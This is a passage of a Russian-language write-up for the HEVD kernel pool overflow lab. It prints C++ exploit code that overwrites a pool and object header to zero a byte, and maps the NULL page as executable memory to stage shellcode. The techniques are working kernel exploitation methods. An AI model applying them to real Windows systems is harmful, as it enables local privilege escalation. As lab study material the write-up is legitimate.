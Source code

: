Окей, нам нужно сохранить всё, как есть кроме 0xC и перезаписать этот байт нулём. Мы перезаписываем 40 байтов или 0x28, что даёт нам буфер размером 0x220

```cpp
 ULONG payload_len = 0x220;

    BYTE* input_buff = (BYTE*)VirtualAlloc(NULL,
        payload_len + 0x1,
        MEM_RESERVE | MEM_COMMIT,
        PAGE_EXECUTE_READWRITE);

    BYTE overwrite_payload[] = (
        "\x40\x00\x08\x04"  // pool header
        "\x45\x76\x65\xee"  // pool tag
        "\x00\x00\x00\x00"  // obj header quota begin
        "\x40\x00\x00\x00"
        "\x00\x00\x00\x00"
        "\x00\x00\x00\x00"  // obj header quota end
        "\x01\x00\x00\x00"  // obj header begin
        "\x01\x00\x00\x00"
        "\x00\x00\x00\x00"
        "\x00\x00\x08\x00" // 0xc converted to 0x0
        );

    memset(input_buff, '\x42', 0x1F8);
    memcpy(input_buff + 0x1F8, overwrite_payload, 0x28)
```

Нам нужно аллоцировать NULL страницу, что взято у [tekwizzz123](https://github.com/tekwizz123/HEVD-Exploit-Solutions/blob/master/HEVD-Pool-Overflow/HEVD-Pool-Overflow/HEVD-Pool-Overflow.cpp)
```cpp
typedef NTSTATUS(WINAPI *_NtAllocateVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID *BaseAddress,
    ULONG_PTR ZeroBits,
    PSIZE_T AllocationSize,
    ULONG AllocationType,
    ULONG Protect
);

void allocate_shellcode() {

    _NtAllocateVirtualMemory NtAllocateVirtualMemory = 
        (_NtAllocateVirtualMemory)GetProcAddress(GetModuleHandleA("ntdll.dll"),
            "NtAllocateVirtualMemory");

    INT64 address = 0x1;
    int size = 0x100;

    HANDLE result = (HANDLE)NtAllocateVirtualMemory(
        GetCurrentProcess(),
        (PVOID*)&address,
        NULL,
        (PSIZE_T)&size,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);

    if (result == INVALID_HANDLE_VALUE) {
        cout << "[!] Unable to allocate NULL page...wtf?\n";
        cout << "[!] Last error: " << dec << GetLastError() << "\n";
        exit(1);
    }
    cout << "[>] NULL page mapped.\n";
    cout << "[>] Putting 'AAAA' on NULL page...\n";

```